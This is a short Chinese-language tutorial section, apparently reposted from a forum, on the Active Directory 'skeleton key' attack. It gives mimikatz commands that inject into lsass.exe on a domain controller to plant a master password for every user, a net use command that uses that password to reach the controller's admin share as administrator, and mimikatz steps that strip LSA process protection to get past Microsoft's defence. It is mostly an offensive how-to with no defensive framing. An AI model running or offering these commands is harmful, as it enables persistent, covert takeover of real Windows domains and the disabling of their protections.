



# 5.3 skeleton key

> 原文：[https://www.zhihuifly.com/t/topic/3436](https://www.zhihuifly.com/t/topic/3436)

### 5.3 skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

#### 1、 在域控上安装 skeleton key

```
mimikatz.exe privilege::debug "misc::skeleton" 
```



#### 2、 在域内其他机器尝试使用 skeleton key 去访问域控

添加的密码是 mimikatz

```
C:\Users\jeff1>net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\adm inistrator 
```



#### 3、 微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注 入。如果直接尝试添加 skelenton key 会失败。

适用系统:

*   windows 8.1
*   windows server 2012 及以上



当然 mimikatz 依旧可以绕过，命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton 
```